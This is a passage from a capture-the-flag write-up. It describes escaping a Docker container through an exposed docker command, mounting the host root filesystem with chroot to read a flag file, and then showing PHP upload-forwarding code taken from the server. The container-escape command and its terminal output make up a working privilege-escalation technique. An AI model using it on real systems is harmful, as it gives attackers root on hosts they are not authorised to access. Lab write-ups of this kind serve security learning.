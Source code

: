 The hex `4f18a45cca05` as the hostname already reveals that this is very likely a Docker container. The docker container itself doesn't contain any additionally helpful files, so the next step is to find some way to escape the container and gain access to the host machine. A common misconfiguration is that the docker command is accessable in the container, so for that I tested that first.

```terminal
root@4f18a45cca05:/var/www/html/uploads# docker

Usage:  docker [OPTIONS] COMMAND

A self-sufficient runtime for containers
.....
```

Fortunaltely you are able to execute the command in the container. To exploit the misconfiguration I first searched for a suitable container that can be used. Finally I started the container, mounted the host filesystem and extracted the flag file.


```terminal
root@4f18a45cca05:/var/www/html/uploads# docker images
REPOSITORY      TAG       IMAGE ID       CREATED        SIZE
phpvulnerable   latest    d0bf58293d3b   3 months ago   926MB
php             8.1-cli   0ead645a9bc2   6 months ago   527MB
root@4f18a45cca05:/var/www/html/uploads# docker run -v /:/mnt --rm -it php:8.1-cli chroot /mnt sh
# ls /root
 bin   flag.txt   lib   root   share   snap  '~'
# ls
bin  boot  dev	etc  home  lib	lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  snap	srv  sys  tmp  usr  var
# cd home
# ls
qathm  ubuntu
# cd qathm
# ls
# pwd
/home/qathm
# wc /root/flag.txt
 1  1 20 /root/flag.txt
```

## Further Notes

### File upload

I was very confused when I was trying to upload a file. In general there is no possibility to send a file/POST request through SSRF and the only thing I could think of was HTTP request smuggling. Maybe you asked yourself the same question how this was implemented, here is the source code (stolen from the server after root access 😈)! The `dashboard.php` basically checks if the `investor_file` data field is present and if it is it will upload the file.

```php
if (isset($_FILES['investor_file'])) {
    $file = $_FILES['investor_file'];
    $ch = curl_init();

    $cfile = new CURLFile($file['tmp_name'], $file['type'], $file['name']);

    curl_setopt_array($ch, [
        CURLOPT_URL => 'http://192.168.100.10/finance.php',
        CURLOPT_RETURNTRANSFER => true,
        CURLOPT_POST => true,
        CURLOPT_POSTFIELDS => ['investor_file' => $cfile],
    ]);

    $responseContent = curl_exec($ch);
```